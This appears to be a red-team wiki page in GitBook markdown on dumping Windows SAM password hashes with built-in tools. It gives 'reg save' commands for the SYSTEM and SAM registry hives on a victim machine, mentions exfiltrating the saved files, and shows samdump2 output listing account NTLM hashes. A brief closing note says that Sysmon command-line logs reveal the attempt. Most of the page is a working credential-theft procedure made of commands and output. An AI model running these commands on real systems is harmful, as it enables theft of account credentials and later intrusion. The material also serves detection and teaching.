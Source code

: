 ```yaml
---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---
```


# Dumping Hashes from SAM

## Execution

Dumping the registry hives required for hash extraction:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

